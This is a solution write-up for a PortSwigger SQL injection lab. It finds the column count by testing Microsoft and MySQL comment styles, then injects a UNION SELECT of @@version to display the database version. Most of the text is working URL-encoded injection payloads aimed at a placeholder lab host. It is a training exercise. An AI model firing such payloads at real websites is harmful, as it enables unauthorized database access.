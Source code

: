 ```yaml
---
title: PortSwigger - SQLi 8 - Querying DB type and version on MySQL and Microsoft
date: 2023-05-16
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, display the database version string.

## ✅ Solution

> We know it is a MySQL or Microsoft database so we will have to try different comment symbol:
> `--comment` for Microsoft
> `#comment` or `-- comment` for MySQL
> The `#` will be encoded as `%23` and the space `` as `%20`

Find the number of columns while trying different comments:

````text
# Microsoft: --comment
<website>/filter?category=Gifts'UNION SELECT NULL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--            # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--       # error! 
# MySQL: #comment
<website>/filter?category=Gifts'UNION SELECT NULL%23                # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL%23           # works  
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL%23      # error! 
# MySQL: -- comment
<website>/filter?category=Gifts'UNION SELECT NULL--%20              # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--%20         # works  
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--%20    # error! 
````

We know 2 columns are returned by the questy. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL--%20        # works
````

> To determine the database type and version on MySQL we have to query `@@version`.
> The `@` character is `%40` when URL encoded.

Full payload:

````text
<website>/filter?category=Gifts'+UNION+SELECT+%40%40version,NULL--%20    # works
````

The database type and version are displayed.
